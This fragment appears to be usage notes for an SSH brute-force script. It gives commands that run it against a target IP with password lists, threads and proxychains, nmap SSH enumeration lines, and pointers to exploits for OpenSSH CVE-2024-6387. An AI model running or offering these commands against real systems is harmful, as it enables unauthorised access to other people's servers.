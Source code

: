 

python3 ssh_brute.py <IP>

python3 ssh_brute.py <IP> --port 2222

python3 ssh_brute.py <IP> --users users.txt --passwords passlist.txt --threads 10

proxychains python3 ssh_brute.py <IP>.

nmap -p22 --script ssh2-enum-algos <IP>

nmap -p22 --script ssh2-enum-algos 192.168.1.100

Exploit-DB:searchsploit OpenSSH 2024

GitHub: Repos comohakivvi/openssh-cve-2024-6387.